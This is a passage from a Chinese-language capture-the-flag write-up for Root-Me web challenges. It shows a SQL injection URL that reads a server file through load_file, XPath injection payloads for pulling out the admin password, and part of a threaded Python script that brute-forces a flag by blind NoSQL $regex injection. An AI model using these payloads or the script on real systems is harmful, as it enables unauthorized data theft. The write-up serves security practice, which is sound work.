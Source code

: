 ```
http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=-1 union select load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870),2,3,4-- +
```

## 50.XPath injection - string
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch27/](http://challenge01.root-me.org/web-serveur/ch27/ "http://challenge01.root-me.org/web-serveur/ch27/")
\[+]Statement:获取管理员密码
\[+]Solution:在member页面可以注入，并且测试发现会出现输入语句的报错，构造payload可以读到用户名和密码。一对一对测试可以找到管理员账号。
\[+]Payload: &#x20;

```
') or ('1'='1
1' or '1'='1')]|//user/password[contains(.,'
```

## 51.NoSQL injection - blind
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch48/](http://challenge01.root-me.org/web-serveur/ch48/ "http://challenge01.root-me.org/web-serveur/ch48/")
\[+]Statement:这是一个web应用，找到nosqlblind的flag
\[+]Solution:在name输入nosqlblind，利用基于布尔类型的注入，使用regex一位一位的进行注入，最终可以得到flag。
\[+]Payload: &#x20;

```
 import requests,threading,queue,time,string
SHARE_Q=queue.Queue()
payload=""
next=False
class worker(threading.Thread):
	def __init__(self,func):
		threading.Thread.__init__(self)
		self.func=func
	def run(self):
		self.func()
def scan():
	global SHARE_Q
	global payload
	global next
	if next==True:
		next=False
		return
	url="http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^({})"
	while not SHARE_Q.empty():
		i=SHARE_Q.get(timeout=1)
		print('[url]:'+payload+i)
		r=requests.get(url.format(payload+i))
		if 'Yeah' in r.text:
			payload+=i
			print('[payload]:'+payload)
			SHARE_Q.queue.clear()
			next=True
			SHARE_Q.task_done()
			return
	SHARE_Q.task_done()
def main():
	global SHARE_Q
	threads=[]
	while True:
		for i in string.printable[:-6]:
			if i in '*.?+$^[](){}|\\/':
				SHARE_Q.put('\\'+i)
			else:
```